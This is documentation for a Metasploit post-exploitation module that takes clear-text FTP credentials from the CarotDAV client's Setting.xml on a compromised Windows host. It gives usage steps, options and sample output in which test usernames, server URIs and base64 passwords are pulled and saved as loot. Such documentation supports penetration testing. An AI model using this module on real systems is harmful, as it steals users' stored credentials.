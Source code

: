 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the CarotDAV ftp Client.

  The CarotDAV FTP Client is avaialble from (https://rei.to/carotdav_en.html).

  This module extracts information from the Setting file in the "AppData\Roaming\Rei Software\CarotDAV" directory.

  This module extracts server information such as connection name, target URI, username and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/carotdav_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Carotdav's Setting file found
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103946_default_10.0.0.2_CarotDAVSetting._341142.xml

[+] <Name>TheTestBed</Name>
[+] <Name>Aperture Testing Laboratories</Name>
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[+] <UserName>TestBed\TheTester</UserName>
[+] <UserName>TestBed\TheBackupTester</UserName>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103947_default_10.0.0.2_EXTRACTIONSSetti_673514.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```
msf6 post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Carotdav's base folder not found in users's user directory

[*] Starting Packrat...
[*] Carotdav's base folder found
[*] Found the folder containing specified artifact for Setting.
[*] Carotdav's Setting file found
[*] Processing C:\Users\test\AppData\Roaming\Rei Software\CarotDAV
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_CarotDAVSetting._292914.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>TheTestBed</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>Aperture Testing Laboratories</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheBackupTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_EXTRACTIONSSetti_754664.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
